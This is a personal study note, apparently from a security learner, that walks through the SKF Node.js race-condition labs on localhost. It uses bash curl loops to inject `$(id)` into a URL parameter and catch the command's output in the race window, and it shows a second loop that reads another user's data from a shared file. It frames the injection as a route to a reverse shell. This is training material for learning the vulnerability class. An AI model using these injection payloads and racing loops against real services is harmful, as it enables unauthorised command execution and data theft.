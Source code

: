 ```yaml
---
tags:
  - vulnerabilty
  - "#racecondition"
---
```


# What is a Race Condition

Where two or more services fight for the same resources and don't exists any mechanism that synchronize the access of services.

If two process try to access at the same time, could be that one of them will be unpredictable, or a not expected behavior 



---
# Exploiting

Go to indicate folder and use `sudo npm install` and `sudo npm start`

If you have some problema with `npm install` add a `--force`

![](../../Images/Pasted%20image%2020230906154654.png)

We are analyze the code of the website that is in **app.js** 

And we can see that we can't execute command thanks to this regex, but before execute the valid function, we can see that the file with our name (or malicious command) exists, but after is changed by the regex

![](../../Images/Pasted%20image%2020230906161006.png)

If the variable valid is empty, they call boot_clean() and this function delete the file hello.txt, but before this the command is executed

![](../../Images/Pasted%20image%2020230906164825.png)

In this piece of code exist a little margin when create the file `fs.writeFileSync`, then execute the file and apply the validation, if you go so fast to read the file, maybe you have time to see the result.

We can do this one-liner to check if the command is executing, this is possible because we have access to the files of the website:

You put some name in the website, in my case I put my name and then I use this loop

````bash
while true; do cat hello.txt | grep -v "Sergio"; done
````

`hello.txt` --> In this file is where stored the word that you introduce in the website

`grep` --> You are using grep because you are not interested in see the content of the file until don't change the input in the website

In the website try to inject command:

````bash
$(id)
or
`id`
````

Go to terminal and stop the loop with ctrl_c and if you to the begging you can see the result of the command executed

![](../../Images/Pasted%20image%2020230906165756.png)

But how we can do this if we haven't the files?

````bash
while true; do curl -s -X GET 'http://localhost:5000/?action=run' | grep -i "Check this out" | html2text | xargs; done

# Genereated by S4vitaar
````

You have to send the information in the website, in my case I don't change the name `Default User`

Click on **Make it mine!**

In terminal you have to see this:

![](../../Images/Pasted%20image%2020230906170800.png)

Now we are going to hide the output that contain `Default User`:

````bash
while true; do curl -s -X GET 'http://localhost:5000/?action=run' | grep -i "Check this out" | html2text | xargs | grep -v "Default User"; done
````

Now you need to copy the url when put the name, the URL be like:

![](../../Images/Pasted%20image%2020230906171009.png)

````bash
http://localhost:5000/?person=Default+User&action=validate
````

In other terminal you have to use curl command, but change the `Default User` by `$(id)`:

````bash
curl -s -X 'http://localhost:5000/?person=$(id)&action=validate'
````

**Important** --> You have to use single quotes in url because the $(id) would be interpreted by your own machine and this is not interest us

Now we are going to put this command in a while loop:

````bash
while true; do curl -s -X 'http://localhost:5000/?person=$(id)&action=validate'; done
````

After running this command you have to have the after command executing, you have to execute this command in a terminal:

````bash
while true; do curl -s -X GET 'http://localhost:5000/?action=run' | grep -i "Check this out" | html2text | xargs | grep -v "Default User"; done
````

and the last in other terminal:

````bash
while true; do curl -s -X GET 'http://localhost:5000/?person=$(id)&action=validate'; done
````

We can see a lot of unnecessary output:

![](../../Images/Pasted%20image%2020230906171733.png)

We can delete this from our output:

````bash
while true; do curl -s -X GET 'http://localhost:5000/?action=run' | grep "Check this out" | html2text | xargs | grep -vE "pepe|Important|Default User"; done
````

As I am somewhat impatient I change the name and put `pepe` and I have to change a little the loop 

You have to wait and you can see the result:

![](../../Images/Pasted%20image%2020230906182544.png)

What means this?

That means that you can use a [Reverse shells](../../Shells/Reverse%20shell/Reverse%20shells.md) and gain access to the victim machine, this is vulnerable to a **command injection**

---

# Race condition file write

We are going to the other folder and realize npm install and start

![](../../Images/Pasted%20image%2020230906183234.png)

This is the same

In this case if you put some parameter in the url you obtain a file

> http://localhost:5000/test

If you look the app.js

![](../../Images/Pasted%20image%2020230906183448.png)

You can see that there are some spaces begin write the file and give you (that are time loss)

Imagine that two user at the same time append information in the document shared-file.txt and when they present (upload) the file you can see the content of the other person 

Imagine that other user is sending the data (you can emulate other user with Burpsuite)

````bash
while true; do curl -s -X GET "http://localhost:5000/hello"; done
````

You see the response that is:

![](../../Images/Pasted%20image%2020230906184127.png)

You can put an echo to see better

````bash
while true; do curl -s -X GET "http://localhost:5000/hello"; echo; done
````

Now we are going to remove all the output that contain hello

````bash
while true; do curl -s -X GET "http://localhost:5000/hello" | grep -v "hello"; done
````

If we go to Burpsuite (other user) and send the request with **Repeater**, while this loop is running, at some point can see the data of the other client

![](../../Images/Pasted%20image%2020230906184743.png)

But to obtain in this case the data of the client (Burpsuite) the length of the client must be bigger than the data of the attacker (in the terminal)

And you can see the data of the client that is **asdasd** in our terminal if you send many times the request

![](../../Images/Pasted%20image%2020230906185115.png)

Not always work the first time that you send the request

---

# Labs

We are going to use [skf labs](https://github.com/blabla1337/skf-labs)

nodeJs/RaceCondition

After we are going to see nodeJs/RaceCondition-file-write

